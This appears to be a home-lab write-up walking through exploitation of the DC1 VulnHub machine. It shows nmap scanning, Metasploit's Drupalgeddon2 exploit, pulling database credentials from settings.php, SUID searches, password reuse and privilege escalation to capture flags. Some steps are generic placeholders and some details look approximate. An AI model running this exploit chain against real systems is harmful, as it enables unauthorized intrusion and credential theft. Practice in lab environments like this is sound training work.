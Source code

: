 Home Hacking Lab: DC1 VulnHub Machine Exploitation
Description:
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

Apps, Languages, & Utilities Used:

Virtualization Software: VirtualBox
Operating Systems: Kali Linux, DC1 VulnHub machine
Security Tools: Metasploit, nmap, Hydra, LinPEAS, MySQL
Scripting: Bash
Environments Used:

Kali Linux: Attacker Machine
DC1 VulnHub Machine: Vulnerable VM
Objective:
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

Skills Learned:

Setting up VMs in Oracle VM VirtualBox.
Performing vulnerability scanning using nmap.
Exploiting web application vulnerabilities using Metasploit.
Brute-forcing login credentials using Hydra.
Capturing and analyzing database credentials.
Performing privilege escalation and capturing flags on a vulnerable machine.
Documenting and reporting exploitation techniques.
Steps Taken:

Download and Setup DC1 VulnHub Machine
Download DC1 Machine from VulnHub:

Navigate to VulnHub and search for DC1 or go directly to the DC1 VulnHub page.
Download the DC1 machine and extract the contents.
Import the DC1 Machine into VirtualBox:

Open VirtualBox and go to File > Import Appliance.
Select the extracted DC1 file and follow the prompts to complete the import.
Configure Network Settings:

Adjust the network adapter to NAT Network and select the appropriate network.
Start the DC1 VM:

Boot up the DC1 VM and ensure it is running properly.
Exploitation of DC1 VulnHub Machine
Flag 1: Initial Enumeration and Exploitation
Objective: Identify and capture the first flag by exploiting the web application.

Verify DC1 Machine is Running:

Ensure the DC1 machine is up and running by pinging its IP address:
bash
Copy code
ping 10.0.200.6
Information Gathering:

Perform an nmap scan to identify open ports and services:
bash
Copy code
nmap -A -sC -oN dc.txt 10.0.200.6
Enumerate the Web Application:

Access the web application running on port 80 and identify that it is using Drupal.
Use Metasploit to find and exploit vulnerabilities in Drupal:
bash
Copy code
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run
Capture Initial Flag:

Once you gain a shell, navigate the file system to find the first flag:
bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt
Flag 1 Content: "Every good CMS needs a config file."
Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

Identify Configuration Files:

Use the hint from Flag 1 to locate the Drupal configuration file:
bash
Copy code
cat /var/www/html/sites/default/settings.php
Find Database Credentials:

Extract database credentials from the configuration file.
Connect to the Database:

Use the credentials to connect to the MySQL database:
bash
Copy code
mysql -u dbuser -p
Enumerate Database and Capture Flag:

Enumerate the database to find the second flag:
bash
Copy code
show databases;
use drupal;
show tables;
select * from flags;
Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."
Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

Identify Weak Configurations:

Search for files with weak permissions or misconfigurations that could allow privilege escalation:
bash
Copy code
find / -perm -4000 -type f 2>/dev/null
Exploit Weakness:

Use tools like GTFOBins to escalate privileges:
bash
Copy code
/path/to/vulnerable_binary
Capture Third Flag:

Once privileges are escalated, navigate the file system to find the third flag:
bash
Copy code
find / -name flag3.txt
cat /path/to/flag3.txt
Flag 3 Content: "There's more than one way to skin a cat."
Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

Enumerate Users:

List all users on the system and look for interesting files in their home directories:
bash
Copy code
cat /etc/passwd
ls /home
Check for Reused Passwords:

Try using previously discovered passwords to switch to different users:
bash
Copy code
su - username
Capture Fourth Flag:

Navigate the user's home directory to find the fourth flag:
bash
Copy code
find /home -name flag4.txt
cat /path/to/flag4.txt
Flag 4 Content: "You can use the same method to find or access the root flag."
Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

Identify Privilege Escalation Vector:

Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.
Exploit and Gain Root Access:

Perform the privilege escalation to gain root access:
bash
Copy code
/path/to/exploit
Capture Final Flag:

Navigate to the root directory and find the final flag:
bash
Copy code
cd /root
cat final_flag.txt
Final Flag Content: "Well done! You have completed the DC1 challenge."
sessions -i 1
sysinfo
